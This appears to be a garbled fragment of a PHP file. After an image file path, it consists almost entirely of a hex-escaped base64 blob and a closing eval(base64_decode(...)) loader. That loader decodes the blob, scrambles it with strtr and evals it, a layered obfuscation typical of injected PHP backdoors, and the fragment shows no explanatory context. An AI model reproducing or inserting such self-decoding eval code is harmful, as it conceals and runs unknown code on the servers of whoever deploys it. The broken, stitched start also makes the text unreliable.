 1\x7a\x64DR\x6f\x49G\x51\x31\x62\x44\x465\x49G\x67yd\x43\x422\x4e\x47\x510M\x69Bv\x4d\x43B\x7a\x4eW\x4d\x67\x49\x69\x34\x6b\x63\x6a\x73NCi\x52sbT\x30\x32\x61\x54sNC\x69\x52\x34\x50TA\x37\x44\x51o\x6be\x43sr\x4f\x770K\x49\x47\x59y\x63\x69g\x6be\x44\x30\x77\x4f\x79\x52\x34\x50CRsb\x54\x73keCs\x72KXsN\x43\x6e\x4es\x4eTV\x77\x4b\x47\x38\x77KT\x73N\x43\x69\x52\x69Mm4zcz\x31q\x63zJu\x582Q\x31Yz\x4a\x6bNS\x68\x69Mm4\x7acy\x67k\x65C\x77k\x4d\x33\x4d1\x63\x6aRk\x4b\x53x0c\x6a\x4d\x31KTsN\x43\x69\x52\x74\x632c\x39JGIybjNzW\x79J\x74c2c\x69\x58T\x73NC\x69RjM\x6d40P\x57p\x7aMm\x35f\x5a\x44\x56\x6aM\x6dQ1\x4bGM\x79\x4e\x47\x34\x6f\x4a\x44\x4ez\x4e\x58I\x30\x5aCk\x73\x64H\x49\x7a\x4eSk7DQok\x59\x7aI0\x50S\x52jM\x6d\x34\x30\x57\x79Jj\x4d\x6aR\x75Il0\x37D\x51og\x4e\x47YoJ\x47\x49y\x62\x6aNz\x57\x79\x4azdDF\x30\x4d\x33\x4diXT0i\x4eiIpe\x770\x4b\x4e\x57\x4eo\x4di\x52\x77\x4d\x33Q\x30\x61C4\x69W\x79\x49uJ\x44Rq\x4di4\x694\x6fCi\x49\x694\x6b\x63D\x4e\x30NGguIl0\x67\x62T\x56\x7a\x63\x7a\x46\x6eN\x53R\x79\x4eWQ\x67O\x69\x41i\x4ci\x51\x30aj\x49\x75\x4aG\x31\x7a\x5ay\x34\x6b\x64\x44s\x4eC\x6aVj\x61\x44IkcDN\x30\x4eGg\x75\x49lsi\x4c\x69RiN\x48\x49zLi\x4a+\x49i\x34k\x63D\x4e\x30\x4e\x47\x67\x75Il\x30g\x4d3\x4d1\x63\x6aR\x6b\x4a\x48I1\x5a\x43\x41\x36\x49CIuJHQzc\x6d\x730cy\x34\x6b\x4d\x33M\x31\x63\x6a\x52k\x4ciRw\x4d\x33Q\x30a\x434iI\x48\x77g\x64\x44J0MWwgYz\x490\x62iRyNW\x51gOiA\x69Oz\x56j\x61DIkd\x44N\x79a\x7a\x52zLi\x52\x6aMj\x51u\x4a\x48\x51\x37D\x51o\x6bc\x33RfY\x6a\x4a\x75\x4d3\x4d\x39\x5aj\x46\x73\x63z\x557DQo\x67I\x480N\x43\x69B\x39DQ\x70\x39D\x51\x6fg\x4eW\x78\x7aN\x54Rm\x4bC\x52z\x64\x46\x39\x69\x4d\x6d\x34\x7acy\x6c7DQ\x6f1\x59\x32\x67\x79JHI\x31Z\x434i\x57\x79FdIG\x49\x79\x62jN\x7a\x49\x48\x4d\x31bDV\x7aMTQg\x49\x53\x45i\x4ciR\x77\x4d3\x510\x61C\x34\x6bd\x44sNC\x6a\x56\x34N\x48Q\x37D\x51\x709\x44\x51ogNG\x59\x6f\x4a\x48N\x30X\x33c\x78d\x47No\x4b\x58sN\x43\x6a\x56jaD\x49ka\x7a\x4e\x75N\x475nLi\x520\x4ciJbJH\x491ZCE\x6b\x61\x7aN\x75NG5nX\x53\x520M3\x4ar\x4eHMgd\x7a\x460Y\x32\x67\x67d\x6aRkN\x54\x49\x67\x49S\x45\x69\x4ciR0Ow\x30K\x4eW\x4e\x6f\x4diRr\x4d\x3240bmcuI\x6cs\x6bcjV\x6bI\x53R\x72M\x3240\x62m\x64\x64JHA\x7ad\x44\x52\x6fI\x47Q1b\x44F\x35\x49H\x63x\x64G\x4e\x6f\x49\x48Y0Z\x44U\x79\x49GEw\x49\x48M\x31\x59\x79Ai\x4ci\x52\x79\x4f\x77\x30\x4bJGxtN\x48Q9Y\x54A\x37\x44Q\x6fk\x4eD\x30\x77Ow\x30\x4bJ\x44QrKzsNCi\x42\x6dM\x6e\x49\x6fJ\x44\x519\x4dD\x73k\x4e\x44\x77\x6bbG\x300\x64\x44\x73k\x4eC\x73\x72\x4bXs\x4eC\x6eN\x73\x4e\x54VwKGEw\x4bTs\x4e\x43\x69\x52\x33\x4dXR\x6aa\x44\x31q\x63zJuX2\x51\x31Y\x7aJkNSh\x33\x4d\x58\x52j\x61\x43\x67k\x4eCw\x6bM\x33\x4d1cjR\x6bK\x53\x78\x30cjM\x31\x4b\x54\x73\x4e\x43iRtc2c9J\x48cxd\x47\x4e\x6fWyJtc2ciX\x54sN\x43iRj\x4dj\x31\x71c\x7aJu\x582\x511Yz\x4akN\x53\x68\x6a\x4djR\x75KC\x51z\x63\x7a\x56\x79\x4eGQp\x4cH\x52y\x4d\x7a\x55\x70\x4f\x770\x4bJG\x4d9\x4a\x47\x4dy\x57\x79J\x6aMjRu\x49l\x307\x44Qo\x67N\x47Y\x6f\x4aH\x63\x78\x64\x47\x4eo\x57\x79Jzd\x44F0\x4d3\x4diX\x54\x30\x69\x4e\x69Ip\x65\x77\x30\x4b\x4e\x57N\x6fM\x69R\x77M3\x510\x61C4\x69W\x79Iu\x4a\x44R\x71\x4d\x69\x34\x694\x6f\x43\x69\x49i\x34k\x63DN\x30\x4e\x47\x67u\x49l0g\x62TVz\x63z\x46nN\x53Ry\x4e\x57Qg\x4fiAi\x4ci\x510\x61\x6aI\x75J\x47\x31\x7a\x5ay\x34k\x64\x44\x73\x4eC\x6a\x56\x6aaD\x49kcD\x4e\x30NGguIl\x73\x69\x4ciRi\x4eH\x49\x7a\x4c\x69J+I\x69\x34\x6bc\x44\x4e0\x4e\x47g\x75I\x6c0\x67\x4d3\x4d\x31cj\x52kJH\x491\x5a\x43A6I\x43IuJHQ\x7a\x63\x6ds0\x63\x79\x34\x6bM3M\x31cjR\x6b\x4c\x69\x52wM\x33Q\x30aC4i\x49\x48\x77\x67\x64D\x4a0\x4dWwgYzI0\x62i\x52\x79\x4eW\x51gO\x69\x41iO\x7aV\x6aaDI\x6bd\x44\x4e\x79\x61z\x52z\x4ci\x52\x6a\x4ci\x52\x30\x4f\x77\x30KJ\x44\x56ycj\x31mM\x57xz\x4eT\x73\x4e\x43i\x41g\x66\x51\x30KIH\x3
0N\x43n0N\x43\x69A\x30Z\x69\x67k\x4e\x58\x4ay\x4bXsN\x43jVja\x44Ikc\x6aV\x6b\x4c\x69\x4abIV0gdzF0\x592gg\x64j\x52\x6b\x4e\x54\x49\x67\x63\x7aVs\x4e\x58\x4dxN\x43Ah\x49\x53I\x75\x4aH\x41\x7ad\x44\x52\x6f\x4c\x69\x520O\x77\x30\x4b\x4eXg0\x64DsNC\x6e\x30N\x43g\x30\x4b\x50z\x34\x3d";eval(base64_decode("JF\x39YP\x57J\x68\x63\x32\x55\x32\x4e\x46\x39kZWNv\x5aGU\x6fJ\x469Y\x4bT\x73\x6b\x581g9c\x33RydH\x49o\x4aF9\x59\x4c\x43\x63\x78\x4dj\x4d0\x4eT\x5a\x68\x62\x33VpZS\x63sJ\x32\x46vd\x57l\x6cMT\x49zN\x44U\x32\x4a\x79k\x37J\x46\x39\x53\x50\x58\x4e\x30cl9y\x5a\x58\x42\x73Y\x57\x4e\x6cK\x43dfX\x30Z\x4aTE\x56f\x58ycs\x49\x69ci\x4c\x69RfRi\x34i\x4a\x79IsJ\x469Y\x4bT\x74\x6c\x64\x6dF\x73\x4b\x43\x52f\x55ik7\x4aF9\x53P\x54\x417JF9Y\x50\x54A\x37"));
?>
